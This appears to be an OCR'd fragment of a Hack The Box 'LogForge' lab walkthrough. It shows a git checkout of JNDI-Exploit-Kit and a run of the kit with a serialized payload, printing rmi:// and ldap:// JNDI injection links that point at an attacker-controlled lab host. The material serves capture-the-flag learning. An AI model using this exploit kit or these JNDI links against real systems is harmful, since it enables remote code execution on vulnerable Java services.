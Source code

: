 ```bash

    adding support to className parameter

commit ebe01035a540e8a9e629b698a91edfa144485928
Author: Marcio <almeida@canva.com>
Date:   Mon Dec 13 23:01:33 2021 +1100

    Added support to LDAP with Java serialized payloads.
```

```bash
$ git checkout 0b6925d80d453146db917616c521e7fc8419dbf7
Note: switching to '0b6925d80d453146db917616c521e7fc8419dbf7'.
...
HEAD is now at 0b6925d adding support to className parameter
```

```bash
$ java -jar /opt/JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.3:1389 -P
 ~/Desktop/HTB/LogForge/ping.ser  
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
       _ _   _ _____ _____      ______            _       _ _          _  ___ _   
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |  
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_ 
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_ 
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |                                    
                                           |_|               created by @welk1n 
                                                             modified by @pimps 

[HTTP_ADDR] >> 10.10.14.3
[RMI_ADDR] >> 10.10.14.3
[LDAP_ADDR] >> 10.10.14.3
[COMMAND] >> open /System/Applications/Calculator.app
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/uxoz0h
ldap://10.10.14.3:1389/uxoz0h
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/5lzdqh
ldap://10.10.14.3:1389/5lzdqh
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/oxlvbs
ldap://10.10.14.3:1389/oxlvbs
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.3:1099/utbrbv
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.3:1099/oq8ko5
ldap://10.10.14.3:1389/oq8ko5
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.3:1099/3rtywe

----------------------------Server Log----------------------------
2024-08-11 11:09:05 [JETTYSERVER]>> Listening on 10.10.14.3:8180
2024-08-11 11:09:05 [RMISERVER]  >> Listening on 10.10.14.3:1099
2024-08-11 11:09:05 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```
